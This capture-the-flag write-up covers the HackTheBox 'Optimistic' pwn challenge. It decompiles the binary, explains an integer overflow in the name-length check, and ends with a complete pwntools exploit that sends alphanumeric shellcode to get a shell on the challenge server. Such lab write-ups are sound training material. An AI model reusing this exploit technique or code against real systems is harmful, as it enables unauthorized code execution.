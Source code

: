 ```yaml
---

title: HTB [OPTIMISTIC] [PWN]

date: 2022-06-03 02:28:05 +0200

categories: [pwn,htb]

tags: [Intro to Binary Exploitation]

---
```


## optimistic

**Challenge description:**

> Are you ready to feel positive?


**Analysis:**

```css
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

- **NX disabled** ,Seems like here also we need to execute the shellcode

![](https://i.imgur.com/tihwCaQ.png)
- If we enter 'y' then we can able to get a stack leak
- And there are few more input prompts, let's see that one by  one

**Decompile main()**

```c
void main(void)

{
  int iVar1;
  ssize_t sVar2;
  uint local_84;
  undefined4 local_80;
  undefined2 local_7c;
  char option;
  undefined local_79;
  undefined auStack120 [8];
  undefined auStack112 [8];
  char local_68 [96];
  
  initialize();
  puts("Welcome to the positive community!");
  puts("We help you embrace optimism.");
  printf("Would you like to enroll yourself? (y/n): ");
  iVar1 = getchar();
  option = (char)iVar1;
  getchar();
  if (option != 'y') {
    puts("Too bad, see you next time :(");
    local_79 = 0x6e;
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  printf("Great! Here\'s a small welcome gift: %p\n",&stack0xfffffffffffffff8);
  puts("Please provide your details.");
  printf("Email: ");
  sVar2 = read(0,auStack120,8);
  local_7c = (undefined2)sVar2;
  printf("Age: ");
  sVar2 = read(0,auStack112,8);
  local_80 = (undefined4)sVar2;
  printf("Length of name: ");
  __isoc99_scanf(&DAT_00102104,&local_84);
  if (0x40 < (int)local_84) {
    puts("Woah there! You shouldn\'t be too optimistic.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  printf("Name: ");
  sVar2 = read(0,local_68,(ulong)local_84);
  local_84 = 0;
  while( true ) {
    if ((int)sVar2 + -9 <= (int)local_84) {
      puts("Thank you! We\'ll be in touch soon.");
      return;
    }
    iVar1 = isalpha((int)local_68[(int)local_84]);
    if ((iVar1 == 0) && (9 < (int)local_68[(int)local_84] - 0x30U)) break;
    local_84 = local_84 + 1;
  }
  puts("Sorry, that\'s an invalid name.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

- Email & age seems safe
- But there's a length input
- We can enter the size of the length that gonna get input from us after few lines
- But there's a condition check, we can't give more than `0x40` bytes
- If we do that program will exit

![](https://i.imgur.com/q6P0WwA.png)
- Here we need to notice that the length input is an unsigned integer, so there's a integer overflow here
- Challenge's description also denotes that
- If we give `-1` as input then we can able to change that value into a largest possible unsigned integer 
- Now we can able to do buffer overflow

**Exploitation part:**
- Simply generate a pattern and find the offset to RIP
- RIP offset => 104
- But there's a problem

```c
  while( true ) {
    if ((int)sVar2 + -9 <= (int)local_84) {
      puts("Thank you! We\'ll be in touch soon.");
      return;
    }
    iVar1 = isalpha((int)local_68[(int)local_84]);
    if ((iVar1 == 0) && (9 < (int)local_68[(int)local_84] - 0x30U)) break;
    local_84 = local_84 + 1;
  }
```
- There's a check here, our payload need to be larger than `57` Ascii value
- Which means we need only alpha numeric chars
- Let's search for alphanumeric shellcode
- This one looks good [click here](https://www.exploit-db.com/shellcodes/35205)
- So our full exploit be like
- Also remember we need to subtract 96 from the stack leak, our buffer starts before  96 bytes from the leak

**Exploit script:**

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("optimistic",checksec=False)
p = elf.process()
p = remote('188.166.172.138',30591)


# getting leak
p.sendlineafter('y/n): ','y')
p.recvuntil('gift: ')
stack_leak = int(p.recvline().decode(),16)

# filling rest
p.sendlineafter('Email: ','jo')
p.sendlineafter('Age: ','19')
p.sendlineafter('name: ','-1')

# crafting payload
payload = b'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'
payload += b'A'*(104 - len(payload)) # junk
payload += p64(stack_leak) # stack base

# sending exploit & getting shell
p.sendlineafter('Name: ',payload)
p.interactive()
```

![](https://i.imgur.com/xoI4oQv.png)
- Cool it worked!
